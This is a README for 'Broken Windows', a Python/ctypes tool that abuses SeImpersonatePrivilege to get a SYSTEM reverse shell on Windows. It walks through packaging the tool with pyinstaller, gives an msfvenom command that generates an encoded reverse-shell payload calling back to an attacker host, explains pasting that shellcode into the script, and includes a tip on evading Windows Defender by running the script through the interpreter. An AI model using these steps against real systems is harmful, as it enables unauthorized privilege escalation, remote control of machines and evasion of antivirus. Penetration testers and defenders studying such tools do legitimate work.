 # Broken Windows

## What is it?

It's a privilege escalation tool for Windows. It leverages the access token of the user who runs it to eventually pop a reverse shell as SYSTEM. The user's access token **must** have the SeImpersonatePrivilege in order for Broken Windows to work. 

It can be run through the Python interpreter if it's available on your target system, or it can be run as a standalone executable.

## How can I convert the Broken Windows.py file to an executable?

I promise, it's not too hard. Just follow these steps. You will need the Visual C++ Redistributable DLLs from this repository. ***NOTE: you must be using Python 3.6.8 or earlier for the executable to work on Windows 7. If your target is Windows 10, I have successfully tested Python 3.8.1 on it.***

```
pip install pyinstaller
```
```
pyinstaller --clean --onefile --console --add-data "/path/to/DLLs/*.*;." "/path/to/Broken Windows.py"
```

```Broken Windows.exe``` will be in the ```dist``` folder created by pyinstaller.

## How do I use it?

Generate a reverse shell with msfvenom. Remember to remove x64 from the command if your target system is 32 bit. If msfvenom fails to encode your reverse shell due to one of the bad bytes, run the command again.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MACHINE_IP LPORT=PORT -f python -b "\x00,\xFF,\x0A,\x0D" -e x86/shikata_ga_nai -n 32
```

Copy the shellcode outputted by msfvenom and paste it into the ```BrokenWindows.py``` file, in the ```main``` function.

Then, simply execute ```Broken Windows.py``` or ```Broken Windows.exe``` on your target system:

![CMD](https://user-images.githubusercontent.com/16895391/129423983-a96c33b5-e0d9-458b-abee-128fb2ff0c5b.PNG)

![PYTHON](https://user-images.githubusercontent.com/16895391/129424058-05a8ed5d-4d8d-4e3b-9bac-c5ef72ffe6c9.PNG)

You (hopefully!) will receive a reverse shell as SYSTEM:

![SHELL](https://user-images.githubusercontent.com/16895391/129421207-727ed0e5-8175-4fb7-aa0a-0c1b3a77741c.PNG)

## Tips and Tricks

I have noticed that Windows Defender (and possibly other AVs) **do not** detect any threats if you use the python interpreter to run Broken Windows instead of the executable. If you use the executable, most AVs runtime analysis will detect the reverse shell.

## Why did you use Python for this?

### Good question.

To be honest with you, I have no idea. This project almost entirely uses win32 api functions that are accessed through ctypes. It would make more sense to just use C or C++ to do this, but I guess I just wanted to see if it could be done with ctypes?
